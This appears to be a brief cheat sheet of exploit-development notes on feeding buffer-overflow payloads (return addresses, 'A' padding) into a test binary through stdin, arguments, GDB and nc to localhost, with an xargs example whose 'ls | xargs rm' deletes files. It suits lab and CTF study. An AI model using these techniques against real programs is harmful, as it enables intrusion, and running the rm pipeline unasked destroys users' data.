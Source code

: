 ```yaml
---
title: binary_payloads
date: 2018-05-05 16:06:46
---
```


## Process

### stdin
```sh
python -c 'print("\x90\x32\x45\x89")' | ./vuln
```

### stdin (Shell)
Let's say the address of a shell function is `0x89453290`. The below snippet passes that address via stdin but keeps stdin open afterwards using the `cat` program. With `cat`, you can interact with the shell after injecting the bytes.
```sh
(python -c 'print("\x90\x32\x45\x89")'; cat) | ./vuln
```

### stdin Using File
```sh
./vuln < myfile.txt
# Or this
cat myfile.txt | ./vuln
```

### Arguments
```sh
./vuln $(python -c 'print "\x41" * 36')
```

## GDB

### stdin
```sh
r < <(python -c 'print "\x41" * 36')
# Or this. Careful as this one might filter out NULL bytes
r <<< $(python -c 'print "\x41" * 36')
```

### stdin Using a File
```sh
r < myfile.txt
```

### Arguments
```sh
r $(python -c 'print "\x41" * 36')
```

## Remote Processes
Let's say `localhost:666` is running a vulnerable process that takes input via stdin.
```sh
python -c 'print "\xef\xbe\xad\xde"' | nc -vv localhost 666
```
The `-vv` flags just make the output very verbose.

## Convert stdin/stdout to Program Arguments
Some programs take their input from `argv` instead of stdin. However, it can be inconvenient to send large amounts of data to argv, so we can use a special program called `xargs` to help us. `xargs` takes whatever values that come into its stdin and uses them as arguments to the program given as its own argument.

Example:
The rm program on Unix systems receives the file names it should delete from argv. This could be cumbersome if you need to delete all files in a directory (let's pretend regex expansions and wildcards don't exist for this example). A potential solution is the following command.
```sh
# Deletes all non-hidden files in the current directory
ls | xargs rm
```

The stdout of ls is piped to the stdin of xargs, and xargs runs rm using that stdin as arguments to rm.
